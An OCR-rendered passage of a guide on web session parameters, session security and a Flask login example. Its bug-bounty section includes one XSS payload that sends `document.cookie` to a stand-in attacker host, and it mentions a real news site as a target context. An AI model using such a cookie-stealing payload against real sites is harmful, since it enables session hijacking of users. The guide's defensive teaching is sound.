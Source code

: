 **Important Session Parameters**:
1. **Session ID**:
   - Unique identifier (e.g., `abc123xyz`).
   - Must be random, long (e.g., 32+ characters), and unpredictable.
2. **Expiration Time**:
   - Defines session lifespan (e.g., 30 minutes).
   - Set via cookie `Expires` or server-side logic.
3. **User ID**:
   - Links session to a user (e.g., `user_id=123`).
   - Stored server-side, not in cookies.
4. **Role/Permissions**:
   - Defines access level (e.g., `role=user`).
   - Stored server-side to prevent tampering.
5. **CSRF Token**:
   - Prevents cross-site request forgery.
   - Unique per session, included in forms (e.g., `<input name="csrf_token" value="xyz789">`).
6. **IP/User-Agent Binding**:
   - Optional; restricts session to client’s IP or browser.
   - Balances security vs. usability (IP changes on mobile networks).
7. **Last Activity Time**:
   - Tracks session activity for timeout (e.g., logout after 15 minutes of inactivity).

**Security Considerations**:
- **Session Hijacking**: Mitigate with HTTPS, `Secure`, `HttpOnly`, `SameSite`.
- **Session Fixation**: Regenerate session ID after login.
- **Session Expiration**: Enforce short timeouts for sensitive apps.
- **CSRF**: Include CSRF tokens in forms and verify on the server.
- **Session Storage**: Securely store session data (e.g., encrypted in Redis).

**Bug Bounty Relevance**:
- Test for session fixation (e.g., reuse pre-login session ID).
- Check for predictable session IDs (e.g., sequential IDs).
- Steal session cookies via XSS (e.g., `<script>fetch('attacker.com?cookie='+document.cookie)</script>`).
- Example: Use Burp Suite to tamper with `session_id` or test CSRF protections.

---

### How to Build a Secure Session System

Building a secure session system involves authentication, session creation, token management, and secure storage. Here’s a step-by-step guide using Python Flask as an example, relevant to web apps like `sportbild.bild.de`.

**Steps**:
1. **Authenticate the User**:
   - Verify credentials (e.g., username/password).
   ```python
   from flask import Flask, request, session
   from werkzeug.security import check_password_hash
   import secrets

   app = Flask(__name__)
   app.secret_key = secrets.token_hex(32)  # Secure random key

   @app.route('/login', methods=['POST'])
   def login():
       username = request.form['username']
       password = request.form['password']
       # Assume user_db is a database with hashed passwords
       user = user_db.get(username)
       if user and check_password_hash(user['password_hash'], password):
           return create_session(user['id'])
       return 'Invalid credentials', 401
   ```
